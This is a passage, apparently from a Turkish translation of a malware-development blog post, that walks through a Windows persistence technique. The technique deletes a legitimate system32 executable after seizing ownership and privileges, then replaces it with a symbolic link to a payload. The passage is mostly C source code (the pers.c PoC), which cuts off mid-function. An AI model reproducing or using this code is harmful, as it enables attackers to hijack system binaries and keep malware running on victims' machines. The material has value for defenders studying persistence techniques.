 Son olarak, orijinal dosyayı silin ve sembolik bağlantıyı ayarlayın:     

```cpp
// delete the original file (requires administrative privileges)
if (!DeleteFileA((LPCSTR)legitApp)) {
  printf("error deleting original file: %d\n", GetLastError());
  return 1;
}
printf("original file deleted successfully\n");
CloseHandle(hFile);

HMODULE kernel = GetModuleHandle("kernel32.dll");
pCreateSymbolicLinkA = (BOOLEAN(WINAPI *)(LPCSTR, LPCSTR, DWORD))
GetProcAddress(kernel, (LPCSTR)"CreateSymbolicLinkA");

// create the symbolic link
if (!pCreateSymbolicLinkA((LPCSTR)legitApp, (LPCSTR)meowApp, 0)) {
  printf("error creating symlink: %d\n", GetLastError());
  return 1;
}

printf("symlink to meow created successfully =^..^=\n");
return 0;
```

Gördüğünüz gibi, bu oldukça karmaşıktır. Bu PoC, Windows API'yi kullanarak ayrıcalıkları ayarlama, dosya sahipliğini değiştirme, ACL'leri ayarlama, dosya silme ve sembolik bağlantı oluşturma işlemlerini nasıl gerçekleştireceğimizi göstermektedir.

`system32` klasöründen orijinal dosyayı hemen silmeye çalışırsanız, "erişim reddedildi" hatası alırsınız.    

Ayrıca, mevcut kullanıcı için SID elde etme ve ayarlama işlemleri yanlışsa, "hata `1337` geçersiz sahip" gibi bir hata alabilirsiniz.    

Nihai kaynak kodu şu şekilde görünmektedir `pers.c`:

```cpp
/*
* pers.c
* symlink persistence trick
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2024/07/08/malware-pers-25.html
*/
#include <windows.h>
#include <stdio.h>
#include <aclapi.h> // for OWNER_SECURITY_INFORMATION
#include <sddl.h> // for ConvertStringSidToSid ???

BOOLEAN (WINAPI * pCreateSymbolicLinkA)(
  LPCSTR lpSymlinkFileName,
  LPCSTR lpTargetFileName,
  DWORD  dwFlags
);

// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;
```